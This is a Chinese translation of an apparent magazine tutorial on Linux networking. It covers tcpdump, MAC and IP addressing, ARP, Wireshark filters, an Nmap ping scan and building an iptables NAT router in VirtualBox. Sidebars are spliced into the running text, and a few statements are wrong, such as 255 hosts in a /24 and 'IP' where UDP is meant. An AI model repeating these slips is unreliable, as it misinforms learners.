然而，在更复杂的网络中，当数十台甚至数百台计算机连接到共享介质上时，真正的问题就会出现。当一台计算机正在发送信息时，其他计算机都无法使用该介质传输信息。更糟糕的是，当网络信号发生中断时，你不得不重新传输整个数据——如果要发送的文件很大，这就变得非常麻烦。

计算机网络绕过这些问题的方法是使用分组交换网络。大块数据被拆分成更易于管理的小块，称为数据包。除了包含要共享的信息外，这些数据包还包含元数据，其中会指定该数据包在数据流中的位置等信息。

大多数时候，我们并不把计算机当作孤立的机器来使用，而是将它们连接起来，在家中和整个互联网上共享文件和信息。为了帮助你在这种网络环境中运用你的 Linux 技能，我们将用十二页的篇幅向你介绍网络的基础知识。在此期间，我们的重点将同时放在实践和理论上，并随着内容展开解释术语。我们将让你使用 Linux

> `Wireshark` 在捕获数据包方面与 `tcpdump` 做的工作类似，但它提供了漂亮、色彩丰富的图形界面，方便你直观地了解正在发生什么。


如果一个数据包在互联网深处丢失，接收方计算机会发现数据流中缺少了一部分，它可以只请求重发那个数据包，而不是整个数据。更重要的是，由于数据包将数据拆分成独立的块，所有共享介质的计算机都可以轮流发送自己的数据包，而不是整个文件，这意味着每个人都能更有效地共享介质。

数据包不仅仅是理论产物，你实际上可以看到每个数据包在网络中传输。要查看这些数据包，请使用你的 Linux 发行版提供的任意软件包管理器安装 `tcpdump` 软件包。安装完成后，打开一个终端，首先找出当前提供网络连接的是哪个设备。假设你的计算机上只有一个活动的网络连接，你可以通过输入以下命令来找到答案：`ip a | grep "state UP"`

`ip` 命令用于显示网络连接的相关信息——我们稍后会更详细地介绍它——而 `grep` 命令则对结果进行过滤，只查看那些处于“up”状态（即活动）的网络连接。你感兴趣的信息位于该行开头附近，根据你的配置，它可能是 `eth0`、`wlan0` 或 `em1`。

有了这些信息，你现在就可以运行 `tcpdump` 来观察网络会话的进行。以 root 身份运行：

`tcpdump -i wlan0`

其中 `wlan0` 是你上面发现的设备。然后，打开一个网页浏览器并访问一个网站。当你回到终端时，会看到屏幕被一行行文本填满。每一行代表为了加载页面而在你的计算机和 Web 服务器之间发送的一个数据包，每一行都提供关于该数据包的一些信息，包括发送或接收的时间、它来自哪些计算机（或主机）、发往哪些计算机，以及更多信息。

通过传入 `-w` 选项和一个文件名，你可以保存这些输出以及数据包的内容（不仅是终端中显示的头部信息），以便之后用图形工具（如 `Wireshark`，见第102页）进行分析。

这对于诊断网络问题是一个非常实用的工具。例如，如果你无法让 DHCP 正常工作，在 DHCP 服务器上运行数据包转储，你就可以看到它是否在接收地址请求、是否在做出响应，或者数据包是否被防火墙拦截，从而帮助你确定问题所在。

## 基础知识

### 网络模型

在这篇文章中，我们涵盖的内容很广，从物理介质到数据包，再到 MAC 地址和路由 IP 网络。如果你觉得很难理解这一切是如何结合在一起的，想象一下创建这些使一切正常工作的系统有多难。它非常复杂，如果你的网络连接要按预期方式工作，需要许多组件协同工作。

为了让能够协同工作的网络软件和硬件更容易创建，一些聪明的专家联合起来创造了开放系统互连（OSI）模型。OSI 规定了七个层次，每一层描述一组相关功能，这些功能对于网络按预期运行至关重要。每个独立层都依赖其下一层来提供某些服务，但它不需要知道其他层是如何实现的，只需要知道如何与较低层交互。这意味着它们可以被分别创建和测试，而且你可以在不同功能上拥有许多不同的实现（例如物理层使用光纤或以太网），而不必重写任何其他组件。

在这篇文章中，我们涵盖了 OSI 模型的前三层：

- > **物理层** 该层规定了电信号如何在特定物理介质上传输。

- > **数据链路层** 该层规定了主机在网络上如何被物理识别——也就是说，如何通过 MAC 地址识别。

**网络层** 规定了数据包如何在网络之间路由，以及如何分配逻辑地址。

剩下的四层涉及管理机器之间的可靠连接，以及在应用层对传输数据进行表示和利用。你可能熟悉的一些网络主题属于这些层，包括：第4层的 TCP 和 UDP 协议；第6层的文件编码，如 UTF、ASCII、JPG 等；以及第7层的网络应用，如 HTTP（网页）、FTP（文件传输）和 SMTP（邮件传输）协议。

### MAC 地址

现在你知道了许多计算机如何共享同一个物理网络，你可能会想：计算机在网络中是如何识别彼此的呢？也就是说，你怎样才能只向 Bob 的计算机发送信息，而不是 Alice 的？

事实上，答案是：当计算机通过同一段物理介质（例如一根铜缆）连接时，它们会看到发送给其他每一台计算机的每个数据包。

> `Nmap` 是一个用于扫描网络的命令行工具。在这里，我们使用 `Zenmap` 解释扫描结果，以显示网络的拓扑结构。


## 理解 IP 地址

IP 地址比文章正文中所述要复杂一些。虽然我们通常将 IP 地址写成用点分隔的四个数字，但实际上它是一个单一的 32 位二进制数。四个数字中的每一个都代表地址二进制形式中的一组八位（二进制组），例如：

192.168.1.1

11000000.10101000.00000001.00000001

这意味着 IP 地址中的四个数字每个都可以从 0 到 255。

我们所谈到的前缀指定了二进制表示中属于地址网络部分的有多少位，可以将其视为叠加在 IP 地址上的另一个二进制数，其中 1 表示属于地址网络部分的位：

11000000.10101000.00000010.00000001

11111111.11111111.11111111.00000000

在这种情况下，在 IP 地址 192.168.1.1 中，前三个八位组代表地址的网络部分，因此主机只能从最后一个八位组中分配唯一编号。

这意味着在 192.168.1.0/24 网络中，只能为主机分配 255 个唯一地址。实际上只有 253 个唯一地址，因为范围中的第一个和最后一个地址都保留用于特殊用途。第一个地址是网络地址，用于指定网络本身而不是该网络上的主机。这就是为什么你会在 `ip route` 命令的输出中看到 `0/24`。最后一个地址用于广播消息，寻址 IP 网络上的每个主机。

另一个例子，考虑网络地址 192.168.1.0/28，在这种情况下只有 14 个可用地址，因为用四位二进制数能表示的最大值是 16（2^4），而其中第一个和最后一个是保留的。

阻止它们读取它的原因是每个网络接口卡（NIC – 将计算机的信息转换为可在物理介质上传播的信号并再次解码的设备）都有一个称为 MAC 地址的东西。

每个数据包都包含接收方的 MAC 地址，当计算机接收到数据包时，它会检查该地址是否与其自身 NIC 的地址匹配——如果匹配，则进行进一步处理以提取其中包含的信息；如果不匹配，则丢弃该数据包以节省处理器周期。

你可以通过再次使用 `ip` 命令查看活动 NIC 的地址：

`ip link show dev wlan0`

其中 `wlan0` 是你之前发现的设备名称。如果你只输入 `ip link show`，你将看到连接到计算机的所有 NIC 的信息。MAC 地址是输出中在 `link/ether` 后出现的 12 位信息。它看起来像这样：ea:34:43:81:02:7c。当然，使用一根电线，你很难连接超过两台计算机。为了将许多计算机连接到同一物理网络，可以使用一种称为集线器的设备。集线器有许多以太网接口插入其中，当它在任何一个接口上接收到数据包时，它会将数据包重新传输到所有其他接口。

即使使用聪明的分组交换网络，如果太多计算机共享同一物理介质，你仍然会遇到争用问题——也就是说，如果不同的计算机试图同时传输信息，发送的信息会因此损坏，有效通信就会中断。这是因为计算机实际上并不轮流发送数据包，而是随机发送信息并使用巧妙的算法来帮助它们从数据包碰撞中恢复。

为了解决这个问题，还有另一种设备，称为交换机。交换机与集线器非常相似，因为它也有许多插入其中的以太网接口，但它更智能。

交换机不会盲目地将收到的所有数据包重新传输到所有其他接口，而是建立一张可以通过哪些接口找到哪些 MAC 地址的表。当数据包到达交换机时，它会检查目标 MAC 地址并确定应该从哪个端口发出。这样，你就可以减少在以太网各部分上传输的流量并减少线路上的争用——也就是说，减少碰撞并使通信更可靠。

这是一个网络接口卡的例子；该设备在你的系统和物理介质之间进行调解。

```
ip link show dev wlan0
```


### 逻辑网络

使用交换机扩展网络和减少碰撞并不是故事的结束。然而，另一个需要克服的障碍是 MAC 地址具有扁平结构，这意味着没有简单的方法来组织地址或将它们分组在一起。

当你处理小型网络时，这不是问题，但随着网络的不断增长，你的交换机很快就会处理庞大的 MAC 地址列表，必须在其中搜索以确定数据包必须从哪个端口发出。这会减慢交换机的速度，并使构建全球网络，例如互联网本身变得不可能。

为了解决这个问题，我们将大型网络拆分为许多较小的、逻辑分组的网络，并使用互联网络技术在它们之间路由流量。这是如何工作的？好吧，我们首先需要向你介绍一种新型的

#### 网络

地址，称为 Internet Protocol（IP）地址。你可能已经在某个时候见过 IP 地址——它通常表示为用点分隔的四个数字，例如 `192.168.1.218`。

而不是整个地址仅仅代表网络上的主机，它被拆分为两个不同的部分：网络地址和主机地址，由一种称为前缀的东西来划分。前缀是一个介于 0 和 32 之间的数字，指定 IP 地址的哪一部分属于网络，哪一部分属于主机。因此，完整的 IP 地址写成 `192.168.1.2/24`。

### 将两者结合起来

这些逻辑地址通过映射到我们之前介绍的物理 MAC 地址来工作，每个 IP 地址都链接到特定的 MAC 地址。你可以在自己的计算机上通过在终端中使用 `ip neighbour` 命令看到这一点：

```
ip neigh show
```

该命令输出的每一行代表一台可由你的计算机访问的主机。第一个条目是主机自己的 IP 地址，而后面两个条目指定它可通过哪个 NIC 访问，而 `lladdr` 指定设备的 MAC 地址。你的计算机随后可以使用此信息构造出针对正确计算机的报文。

现在，这里是巧妙之处：具有相同网络地址的计算机会存储彼此的这些信息并可以直接通信。如果它们没有相同的网络地址，那么它们就不会存储 IP 到 MAC 地址的映射，因此无法直接通信。相反，它们的通信通过一个中间设备进行，称为网关或路由器。

如果一个主机在其自己的网络上想要与另一个网络上的主机通信，它会将消息发送给网关，并附带完整的 IP 地址，然后网关会将此消息转发到适当的网络。最终的网关随后会将数据包路由到其自身网络上的正确主机。

> > “关于通过何种路径发送数据包的知识就是路由信息”

如果这些其他网络上有数百、数千甚至数万台主机，你可以看到这减少了每个主机或路由器需要存储的信息量。无需为所有这些主机存储 MAC 地址，它只需关心每个网络上的一个地址——网关的地址。

### 调查路由信息

关于通过何种路径发送数据包的知识——例如，从计算机 A 到路由器 A，然后从路由器 A 到路由器 B，最后到达计算机 B——被称为路由信息，因为它是关于数据包必须采取的路由的信息。

你可以通过使用 `ip` 命令的 `route` 参数来查看自己计算机的路由表：

```
ip route show
```

此输出的第一行在指定 IP 地址之前写有“default”，该地址应通过该地址传输数据包，以及数据包应发出的接口。此默认路由是你的计算机的后备方案——如果没有为你尝试通信的 IP 地址指定其他路由，它将把数据包发送到此网关。

如果你将默认路由的目的地与 `ip neighbour` 命令的输出进行比较，你会看到你的计算机拥有其默认网关的 MAC 地址，因此两者能够直接通信。

### Arping 探测

你的计算机通过使用地址解析协议（ARP）构建 `ip neigh` 命令中显示的 MAC 到 IP 地址表。该协议定义了一种特殊的数据包，就像我们在运行 `tcpdump` 命令时看到的那样。当你的计算机想要找出具有特定 IP 地址的计算机的 MAC 地址时，它会构造一个 ARP 请求数据包。

这包括你的 MAC 地址作为发送者，以及你想要知道其 MAC 地址的主机的 IP 地址，但它不指定目标 MAC 地址。然后该数据包会广播给与你连接在同一物理局域网上的每个主机——也就是说，它会从交换机的每个端口发出，但不会从一个路由器发送到另一个路由器——例如说 `Request who has 192.168.1.2 tell 192.168.1.1`。

如果该 IP 地址存在于网络上，一个 `REPLY` ARP 数据包将被发送回请求者的 MAC 地址，说 `Reply 192.168.1.2 is at ea:34:43:81:02:7c`。现在这两个计算机将能够直接通信。

你可以通过再次运行之前的 `tcpdump` 命令来看到这一点。然而，与其打开网页，不如在另一个终端中以 root 身份运行：

`arping 192.168.1.1`

其中 IP 地址是你的默认网关的地址。如果你现在查看 `tcpdump` 输出，你应该会看到一次 ARP 会话正在进行。


交换机是许多网络中默默无闻的核心，减少了冲突域并使许多主机能够在单个网络中可靠地通信。

### Wireshark：分析流量

我们将解释开始使用图形增强的 Wireshark 所需了解的所有必要要点，并分析三种类型的网络流量。


Wireshark 是一款非常流行且功能极强的网络协议分析器，由 Gerald Combs 开发。Wireshark 诞生于 2006 年 6 月，当时 Combs 将他自己创建的网络工具 Ethereal 更名为 Wireshark，因为他换工作后不能再使用旧名称。如今，大多数人使用 Wireshark，而 Ethereal 已被历史所淘汰。你的 Linux 发行版会提供分析器的即装即用包，所以请继续安装它。你可能会问 Wireshark 与其他网络分析器有何不同——除了它是免费的之外——以及我们为什么不只是提倡使用 `tcpdump` 进行数据包捕获？Wireshark 的主要优势在于它是一个图形化应用程序。使用图形用户界面捕获和检查网络流量是非常有帮助的事情，因为它简化了网络数据的复杂性。为了帮助初学者理解 Wireshark，他们需要理解网络流量。因此本文的目的是提供一份关于 TCP/IP 的全面介绍，以便你能够对正在分析的网络流量数据得出有用的结论。如果你以普通用户身份运行 Wireshark，你将无法使用任何网络接口进行捕获，因为网络接口默认的 Unix 文件权限所致。捕获数据时以 root 身份运行 Wireshark（`sudo wireshark`）更方便，而分析网络数据时以普通用户身份运行即可。或者，你也可以以 root 身份使用 `tcpdump` 命令行实用程序捕获网络数据，然后再使用 Wireshark 进行分析。请记住，在真正繁忙的网络上，使用 Wireshark 捕获可能会减慢机器速度，甚至更糟，可能会因为 Wireshark 需要比命令行程序更多的系统资源而无法捕获所有内容。在这种情况下，使用 `tcpdump` 捕获网络流量是最明智的解决方案。

## 捕获网络数据

开始捕获网络数据包最简单的方法是在启动 Wireshark 后选择你喜欢的接口，然后按下开始。Wireshark 会根据你网络的流量在屏幕上显示网络数据。请注意，你可以同时选择多个接口。如果你对 TCP/IP 或其他 TCP/IP 协议一无所知，你可能会发现输出复杂且难以阅读或理解。为了停止捕获过程，你只需从菜单中选择 Capture > Stop。或者，你可以按下主工具栏上从左数第四个图标，即带有红色方块的图标（这是“停止正在进行的实时捕获”的简写）【注意：其确切位置取决于你的 Wireshark 版本】。此按钮只能在你正在捕获网络数据时按下。使用所述的捕获方法时，你无法更改任何默认的 Wireshark 捕获选项。你可以


TCP 数据包和 IP 数据包格式。

通过从菜单中选择 Capture > Options 来查看和更改捕获选项。在那里你可以选择网络接口，选择你的 IP 地址，应用捕获过滤器，将你的网卡置于混杂模式，并将捕获数据保存到一个或多个文件中。你甚至可以选择在达到给定数量的网络数据包、给定时间或确实给定的数据量（以字节为单位）后停止数据包捕获。

Wireshark 默认不会保存捕获的数据，但你之后始终可以保存数据。被认为是一种良好做法是先保存然后再检查网络数据包，除非有特定原因不这样做。

Wireshark 能够读取和分析来自大量文件格式的已捕获网络数据，包括 `tcpdump`、`libpcap`、Sun 的 `snoop`、HP 的 `nettl`、K12 文本文件等。这意味着你可以使用 Wireshark 读取几乎任何格式的捕获网络数据。同样，Wireshark 允许你以多种格式保存捕获的网络数据。你甚至可以使用 Wireshark 将文件从一种格式转换为另一种格式。

你也可以从文件菜单导出现有文件为纯文本文件。此选项主要用于手动处理网络数据或将其用作另一程序的输入。

有一个选项允许你重新打印数据包。我从未在现实生活中使用过此选项，但它可能对出于教育目的打印数据包及其完整内容有用。

## 显示过滤器

虽然捕获过滤器在网络数据捕获期间应用，并使 Wireshark 丢弃与过滤器不匹配的网络流量，但显示过滤器在捕获后应用并“隐藏”网络流量而不删除它。你始终可以禁用显示过滤器并取回隐藏的数据。

通常，显示过滤器被认为比捕获过滤器更有用和更通用，因为你不太可能事先知道你将捕获什么或想要检查什么。尽管如此，在捕获时应用过滤器可以为你节省时间和磁盘空间，而这正是你可能想要使用它们的主要原因。

当显示过滤器语法正确时，Wireshark 会用浅绿色背景突出显示。当语法有误时，背景变为粉红色。

显示过滤器支持比较和逻辑运算符。`http.response.code == 404 && ip.addr == 192.168.1.1` 显示过滤器显示来自 192.168.1.1 IP 地址或发往 192.168.1.1 IP 地址的流量，且其中包含 404（未找到）HTTP 响应代码。`!bootp && !ip && !arp` 过滤器从输出中排除 BOOTP、IP 和


ARP 流量。`eth.addr == 01:23:45:67:89:ab && tcp.port == 25` 过滤器显示具有 01:23:45:67:89:ab MAC 地址的网络设备进出流量，且其传入或传出连接使用 TCP 端口号 25。

请记住，显示过滤器并不会神奇地解决问题。它们在正确使用时是非常有用的工具，但你仍需自行解释结果、找到问题并思考可能的解决方案。

定义规则时请记住，`（ip.addr != 192.168.1.5）` 表达式并不意味着 `ip.addr` 字段中不能包含 192.168.1.5 IP 地址。它实际上意味着其中一个 `ip.addr` 字段不应包含 192.168.1.5 IP 地址。因此，另一个 `ip.addr` 字段值可以等于 192.168.1.5。你可以将其理解为“存在一个 `ip.addr` 字段不等于 192.168.1.5”。正确表达方式是输入 `!(ip.addr == 192.168.1.5)`。这是一个常见的误解。

你还应记住，MAC 地址在你想要跟踪 LAN 上的特定机器时非常有用，因为机器的 IP 可能在使用 DHCP 时发生变化，但其 MAC 地址更难更改。

建议你访问 TCP 相关流量的显示过滤器参考网站 http://bit.ly/WireSharkTCP。对于与 UDP 流量相关的所有可用字段名称的列表，建议查看 http://bit.ly/WireSharkUDP。

## 关于 TCP/IP、TCP 和 IP

TCP/IP 是连接计算机最广泛使用的协议，它与互联网密切相关，以至于讨论 TCP/IP 而不谈论互联网几乎是不可能的，反之亦然。每个使用它的设备都有：


### TCP 协议

TCP 代表传输控制协议。TCP 的主要特征是它可靠，并确保数据包已送达。如果没有数据包送达的证明，它会重新发送数据包。TCP 软件使用段（也称为 TCP 数据包）在机器之间传输数据。TCP 为传输的每个字节分配序列号，并期望接收方

TCP 堆栈给出积极确认（或 ACK）。如果在超时间隔内未收到 ACK，则数据将被重传，因为原始数据包被视为未送达。接收方 TCP 堆栈使用序列号在数据包乱序到达时重新排列段，并消除重复段。TCP 头包括源端口和目的端口字段。这两个字段加上源和目的 IP 地址

组合起来唯一标识每个 TCP 连接。端口有助于网络连接设备（PC 和路由器等）中的 TCP/IP 堆栈在单个设备上运行的多个程序之间分配流量。如果一个服务希望被视为可靠，通常基于 TCP，否则基于 IP。但正如你所能想象的，可靠性是有代价的，因此并不总是可取的。

`订阅 Linux Format` 请访问 www.myfavouritemagazines.co.uk/lin

## 网络

针对 10.67.93.172 的 Nmap 扫描报告

主机处于活动状态（延迟 0.016 秒）。

MAC 地址：00:50:27:00:E4:F0（Genicom）

针对 www.yyyy.yyyy.gr（10.67.93.11）的 Nmap 扫描报告

主机处于活动状态。

Nmap 完成：在 1.25 秒内扫描了 255 个 IP 地址（10 台主机处于活动状态）

`ping` 测试的目的仅仅是判断某个 IP 是否处于活动状态——参见对面页面的截图。对于 Nmap 的 ping 扫描而言，重要的不是接收数据包的实际内容，而简单来说，是是否存在应答数据包。由于所有流量都在局域网（LAN）中，每个网络设备在应答时都会使用其 MAC 地址，因此你在源（Source）和目标（Destination）字段中都只会看到 MAC 地址。应答数据包的出现让 Nmap 判断出主机已启动并正在运行。由于 MAC 地址包含网络设备制造商的信息，Nmap 也会为你报告该信息。

Nmap 还会计算往返时延（或延迟）。这能相当准确地估算初始数据包（由 Nmap 发送）到达目标设备所需的时间，加上响应数据包返回 Nmap 所需的时间。较大的延迟时间不是好事，理应予以检查。

## 分析 DNS 流量


DNS 查询在 TCP/IP 网络中非常常见。DNS 查询产生的流量很小，因此是学习目的的理想示例。将使用以下命令生成待检查的 DNS 网络流量：

```
$ host -t ns linuxformat.com
linuxformat.com name server ns0.future.net.uk.
linuxformat.com name server ns1.future.net.uk.
```

总共需要两个数据包：一个用于发送 DNS 查询，一个用于对其应答（如右图所示）。第一个数据包是编号 3，第二个是编号 4。使用显示过滤器（DNS）来最小化显示的数据并揭示有用信息。这里使用了 UDP（用户数据报协议），并且所需信息已成功返回而无任何错误，正如 Flags 信息所示。你还可以通过 DNS 查询（1.246055000）与其应答（1.255059000）之间的时间差看出，DNS 服务运行良好，因为响应时间合理。被查询的 DNS 服务器的 IP 地址为 10.67.93.1——这可以从第一个数据包的目标 IP 地址看出。同一个 DNS 服务器应答了该查询，这可以从第二个数据包的源 IP 地址看出。“Answer RRs: 2”这行告诉我们，DNS 查询将有两个应答。假以时日，你就能一眼掌握所有这些信息。

UDP 使用底层 IP 协议将消息从一台机器传输到另一台机器，并提供与 IP 相同的不可靠、无连接的数据包投递服务。它不提供确认机制来确保消息到达，不排序传入的消息，也不提供反馈以控制机器之间信息流动的速率。因此，UDP 消息可能会丢失、重复或乱序到达。此外，数据包的到达速度可能超过接收方的处理速度。

第一个数据包的目标端口是 53，这是 DNS 服务常用的端口号。第二个数据包的 UDP 部分显示了用于应答的端口号：

```
User Datagram Protocol, Src Port: 53 (53), Dst Port: 53366 (53366)

Source Port: 53 (53)

Destination Port: 53366 (53366)

Length: 90

Checksum: 0x9b4d [validation disabled]

[Stream index: 0]
```

与大多数工具一样，你使用 Wireshark 越多，就会变得越高效，所以请继续实践和学习吧！


下图是 Wireshark 在应用显示过滤器后显示 DNS 查询流量的方式。注意 DNS 周围的绿色，这表示其有效性。

## IP 协议

IP 代表互联网协议（Internet Protocol）。IP 的主要特性是它从设计上就不是一种可靠的协议。不可靠意味着数据包可能因各种原因无法到达目的地，这些原因包括传输错误、网络硬件故障和网络拥塞。网络也可能乱序投递数据包、延迟相当长的时间后才投递，或投递重复的数据包。不过，程序员可以通过实现自己的错误检查代码来编写基于 IP 的可靠应用程序，但这并非易事。

当信息不需要很多网络数据包时，使用基于 IP 的协议比使用 TCP 更高效，即使必须重传网络数据包也是如此，因为没有三次握手的流量开销。IP 封装了在 TCP/IP 网络中传输的数据，因为它负责根据 IP 地址将数据包从源主机传送到目标主机。IP 必须找到一种寻址方法来有效地将数据包发送到其目的地。你通常会认为是路由器的专用设备主要执行 IP 路由，但每个 TCP/IP 设备都必须执行基本的路由选择。

每个 IP 地址是四个 8 位数字的序列，以点分隔。每个数字的值在 0（=2^0-1）到 255（=2^8-1）之间。示例 IP 地址有 10.25.128.254、213.201.43.23 和 192.168.1.200。

IPv6 由 IETF 开发，其目的是解决 IPv4 地址枯竭的问题。IP 使用 32 位地址，而 IPv6 使用 128 位地址，提供的地址数量是 IPv4 的 7.9×10^28 倍以上。

## 快速提示

还有一个名为 `tshark` 的 Wireshark 控制台版本。`tshark` 的两个主要优点是：它可以在脚本中使用，并且可以通过 SSH 连接使用。其主要缺点是没有 GUI。`Tshark` 也可以替代 `tcpdump`。

## 网络：

在向你介绍了网络的构建模块和工具之后，我们将把所有这些知识整合起来，创建真实、可用的网络。


在之前的页面中，我们向你介绍了网络的不同组成部分——数据包、物理连接和逻辑寻址——以及你在 Linux 主机上检查这些组件运行情况所需的工具。这将大大帮助你有效地处理网络并诊断你遇到的问题。现在，我们想向你展示这些元素如何组合起来创建一些真实的网络。我们将从让两台计算机直接相互通信开始，然后再演示如何将 Linux 主机变成路由器。为了让你不需要很多计算机，所有这些都将在 VirtualBox 中完成，但你应该也能将同样的技术应用于物理系统。

我们的示例将使用 CentOS——它基于 Red Hat Enterprise Linux，是服务器的常见选择。如果你对 Ubuntu 或其他基于 Debian 的发行版感兴趣，（请参阅第 109 页的“基于 Debian 的发行版”框）。在开始网络方面的工作之前，我们首先需要搭建一个练习用的实验室。那么，你的第一项工作就是安装 VirtualBox。它应该位于大多数发行版的默认软件仓库中，所以只需使用你当前发行版自带的包管理器即可。完成后，下载 CentOS 最小安装光盘（www.centos.org）。然后，按照对面的分步指南在 VirtualBox 中创建两个新的虚拟机，确保添加所有必要的网络接口以使一切正常工作。然后，对第二台虚拟机重复上述步骤，确保它也连接到相同的内部网络。通过像我们这样创建具有两个网络接口的虚拟机，它们不仅可以通过默认 NAT 连接，还能通过我们添加的内部网络直接相互通信。这个内部网络相当于将两台虚拟机插入同一个交换机，或者在两者之间连接一根网线。

`/etc/sysconfig/network-scripts` 目录的内容看起来令人望而生畏，但如果你专注于 `ifcfg-ethX` 文件，你会发现这里有很多可以做的事情。

## 基础网络

两台机器都安装完成后，是时候通过默认的 NAT 网络将两者都连接到互联网了。这将让我们有机会熟悉 Red Hat 的网络配置文件，并重温我们在之前页面中介绍的一些信息。新虚拟机启动后要做的第一件事是切换到 `/etc/sysconfig/network-scripts` 目录。在基于 Red Hat 的发行版中，该目录包含连接到机器的每个网络设备的启动脚本和配置。如果你按照我们的分步指南操作，应该会看到两个配置文件，`ifcfg-eth0` 和 `ifcfg-eth1`（如果你使用的是不同版本的 Red Hat，你看到的可能是 `ifcfg-em2` 和 `ifcfg-em2`）。`Eth0` 是系统上的第一个网络设备，应该对应 VirtualBox 配置中的适配器 1——也就是 NAT 网络。

使用 `Vi` 编辑 `ifcfg-eth0`，确保以下行存在并设置为这些值：

```
NM_CONTROLLED="no"
BOOTPROTO="dhcp"
ONBOOT="yes"
```

第一行阻止 NetworkManager 控制此接口——既然我们要手动操作，它的干扰可能会把事情搞乱，所以我们将其关闭。第二行指定了它应该使用什么协议来获取 IP 地址。这里，我们指定了 DHCP，即动态。

```
root@Adam /etc/sysconfig/network-scripts
ifcfg-Auto Ethernet  ifdown-post  ifup-plug
ifcfg-Auto Ethernet-1  ifdown-ppp  ifup-ppp
ifcfg-Auto greater...  ifdown-route  ifup-route
ifcfg-Auto...  ifdown-sit  ifup-sit
ifcfg-Auto_LAN...  ifdown-tunnel  ifup-tunnel
ifcfg-Auto_netgear  ifup  ifup-aliases  ifup-wireless
ifcfg-lo  ifup-bnep  init.ipv6-global
ifdown  ifup-eth  keys-Auto...  network-functions
ifdown-bnep  ifup-ippp  keys-Auto...  net.hotplug
ifdown-ippp  ifup-ipsec  network-functions  network-functions-ipv6
ifdown-isdn  ifup-ipx  network-functions  
root@Adam network-scripts#
```

## 构建路由器

### 创建虚拟机

- **1 为你的虚拟机命名**

  在主 VirtualBox 窗口左上角点击 'New' 按钮。为虚拟机命名，并在下拉菜单的选项中选择 'Linux' 和 'Red Hat'（以及适当的架构）。


## 2 选择内存大小

我们建议将内存分配设置为至少 `512MB` 的 RAM——这通常是为简单网络任务指定的。这对于我们的 CentOS 虚拟机来说已经绰绰有余。

## 3 创建虚拟磁盘

你可以随意创建，但请确保虚拟磁盘至少为 `8GB`。使用动态分配的磁盘可以在创建虚拟机时节省时间，但在使用时可能会更慢。

## 4 添加网络

突出显示新的虚拟机，选择 `Settings` 然后切换到 Network 视图。切换到 Adapter 2，并勾选 `Enable` 框。注意：确保它连接到一个内部网络。

## 5 选择光盘

在设置菜单的 Storage 部分下，选择 IDE 控制器下的 Empty，然后点击右侧的 CD 图标以浏览到你之前下载的 CentOS ISO 镜像。

## 6 安装 CentOS

最后，点击 `Start` 并以正常方式进行 CentOS 安装过程，并为第二个虚拟机重复此操作。我们现在准备好通过 NAT 网络设置互联网访问。

Dynamic Host Configuration Protocol。这意味着虚拟机将获得一个 IP 地址，以及网关和 DNS 信息，自动从远程服务器分配。在这种情况下，没有远程服务器，只有 VirtualBox 在模拟一个。`BOOTPROTO` 还有其他可能性，包括 `static`，如果你想手动永久分配 IP 地址给这台机器。最后，`ONBOOT` 表示此接口应在网络初始化脚本在此机器上运行时启动，例如在启动时或通过重启网络服务。可以通过以 root 身份执行 `/etc/init.d/network restart` 来测试，并使用 `ping` 工具向热门网站发送数据包来检查你的网络是否按预期工作，例如 Google：`ping google.com`。如果运气好，你会收到返回的数据包，证明你已连接到互联网，意味着你的 IP 地址、子网掩码（或前缀）、默认网关和 DNS——网络连接所需的一切——都已设置并正常工作。你可以通过查看各种配置文件或使用前面页面讨论的工具来检查所有这些设置。例如，`ip route` 将显示你的

将它们添加到 `/etc/hosts` 文件中。该文件包含 IP 地址及其别名的列表，因此我们可以为我们的两台机器添加新条目：

```
192.168.1.2    bxf-network-1
192.168.1.3    bxf-network-2
```

如果你将这些添加到两台机器的 `/etc/hosts` 文件中，你应该能够 ping `bxf-network-1` 或 `bxf-network-2` 并发现你被重定向到正确的机器，这要好得多。

## 构建路由器

到目前为止，我们不需要担心在任一台机器上设置网关，因为我们依赖 VirtualBox 默认 NAT 网络的 DHCP 来提供此功能，以及 DNS，以便我们的系统可以连接到更广阔的互联网。为了演示更多网络功能，我们将禁用第二个虚拟机的 NAT 连接，并将第一个配置为路由器以提供互联网访问。

首先要做的是运行 `ifdown eth0` 以关闭第二个虚拟机上的 NAT 接口。现在接口已配置好，此命令及其对应命令 `ifup` 可用于控制接口是否处于活动状态。

做出此更改后，你现在可以尝试从这台机器 ping Google，你会发现它不再工作了。但是在你能再次使其工作之前，你需要对第一个虚拟机的配置进行一些更改。

首先，你必须告诉它允许从一个网络接口转发数据包到另一个网络接口——这是路由器最重要——也是唯一——用途。Linux 完全有能力做到这一点，但默认情况下该功能是关闭的。要重新打开它，编辑 `/etc/sysctl.conf` 文件，该文件控制内核的各个方面，将 `net.ipv4.ip_forward = 1` 设置为。然后，运行 `sysctl -p /etc/sysctl.conf` 以加载新配置。

完成此操作后，你需要使用 IPTables——内核内置的防火墙——配置自己的 NAT，或 Linux 术语中的网络伪装。

IPTables 让很多人感到害怕，但它其实很简单——它只是一组规则，内核在处理数据包时会查看这些规则。如果数据包匹配这些规则中的任何一个，内核就会将该规则中指定的操作应用于该数据包。操作可以包括丢弃或接受数据包，或操作数据包以更改其源或目标。在我们的例子中，当数据包从第二个虚拟机到达第一个虚拟机时，在 `eth1` 接口上，我们希望防火墙对该数据包应用伪装操作——也就是说，我们希望它将其转发到外部世界，在 `eth0` 接口上，假装数据包来自它自己，而不是第二个虚拟机：

```
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

让我们继续分解：

- `-t nat` 指定 IPTables 应查看哪一组规则。
- `-A POSTROUTING` 指定应检查哪一组规则，即通常称为链。链指定规则应在路由过程中的哪个点应用。
- `-o eth0` 指定此规则应应用于任何将通过 eth0 接口传出的包。
- `-j MASQUERADE` 表示当任何数据包匹配此规则时 '跳转' 到 MASQUERADE 操作。

有了该规则后，你现在应该能够转到第二个虚拟机，通过在 `/etc/sysconfig/network` 文件中添加 `GATEWAY=192.168.1.2` 来设置默认网关（该文件存储所有接口的通用网络配置），在 `/etc/resolv.conf` 中通过添加 `nameserver 8.8.8.8`（Google 名称服务器的 IP 地址）设置一个流行的外部名称服务器，并发现自己拥有一个完全工作的互联网连接，尽管没有直接连接。

如果你想了解更多关于 IPTables 的信息，你应该花时间阅读 Netfilter 网站上的一些 how-tos：http://netfilter.org/documentation

这就是我们能提供的全部内容。但不要绝望——你已经学到了很多关于网络的知识。有了耐心，你现在应该能够遵循其他指南并设计出更复杂的配置以满足你的需求。

> IPTables 看起来可能很复杂，尤其是在涉及大量规则时，但在简单情况下，添加几条规则非常容易。


## 基于 Debian 的发行版

